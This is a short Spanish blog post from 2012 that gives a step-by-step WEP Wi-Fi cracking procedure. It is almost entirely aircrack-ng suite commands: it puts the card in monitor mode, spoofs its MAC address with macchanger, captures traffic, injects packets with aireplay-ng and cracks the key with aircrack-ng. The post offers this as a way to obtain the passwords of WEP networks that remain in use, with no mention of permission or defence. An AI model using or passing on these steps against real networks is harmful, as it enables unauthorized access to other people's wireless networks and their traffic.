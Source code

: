 Title: Ataque básico WEP
Date: 2012-06-20 15:22
Author: ramborg
Category: Systems
Tags: Cracking, wifi
Slug: ataque-basico-wep

Aunque ya casi esta anticuado este tipo de ataque, siguen quedando Wifis
con seguridad WEP. Los pasos para conseguir el password de este tipos de
puntos de accesos son:

    #Ponemos tarjeta en modo promiscuo
    $ sudo airmon-ng start wlan0

    #Cambiamos MAC de nuestra tarjeta 
    $ sudo ifconfig mon0 down
    $ sudo macchanger -m 00:11:22:33:44:55 mon0
    $ sudo ifconfig mon0 up

    #Escaneamos las redes que están a nuestro alcance
    $ sudo airodump-ng mon0

    #Volcamos el tráfico de red
    $ sudo airodump-ng -c [CH] -w [ESSID] --bssid [BSSID] mon0

    #Inyectamos tráficos para capturar mas paquetes
    $ sudo aireplay-ng -1 6000 -a [BSSID] -h 00:11:22:33:44:55 mon0
    $ sudo aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b [BSSID] -h 00:11:22:33:44:55 mon0

    #Ponemos a descifrar la clave con los paquetes capturados
    $ sudo aircrack-ng -z [ESSID]*.cap

La información de esta entrada a sido extraida del blog:  

<http://elblogdepicodev.blogspot.com.es/2012/05/obtener-la-clave-de-una-red-wifi-wep.html>  
via  
<http://planeta.archlinux-es.org/>  
via  
<https://planet.archlinux.org/>
